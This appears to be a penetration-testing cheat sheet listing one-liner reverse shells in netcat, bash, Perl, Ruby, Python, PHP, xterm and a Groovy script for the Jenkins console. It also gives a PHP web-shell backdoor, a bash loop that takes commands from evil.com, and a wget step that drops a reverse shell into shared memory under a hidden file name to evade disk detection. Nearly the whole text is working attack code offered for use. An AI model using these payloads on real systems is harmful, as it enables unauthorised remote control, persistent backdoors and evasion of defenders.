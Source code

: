 ## One-liner reverse shells...
Netcat:
On the listener:

` nc -l -p 8080 -vvv`

On the remote host...

```
nc -e /bin/sh 10.0.0.1 1234

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.103 4444 >/tmp/f &
```

Bash:
```
bash -i >& /dev/tcp/10.0.0.103/4443 0>&1

exec 5<>/dev/tcp/evil.com/8080
cat <&5 | while read line; do $line 2>&5 >&5; done
```
Perl:
```
perl -e 'use Socket;$i="10.10.14.5";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
Ruby:

`ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

Python:

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.227",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

PHP:

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
(Assumes TCP uses file descriptor 3. It it doesn't work, try 4,5, or 6)
```
PHP backdoor :

`<?php passthru($_GET['cmd']); ?>`
XTERM:
```
Server:
xterm -display 10.0.0.1:1
Listener:
Xnest :1
xhost +targetip
```

GROOVY SCRIPT SHELL (JENKINS script console)
```
﻿String host="10.10.14.26";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

For getting a revershell in shared memory so as to not touch hard drive use Linux Shared Memory -

wget IP:port/reverse.py -O /dev/shm/.rev.py 
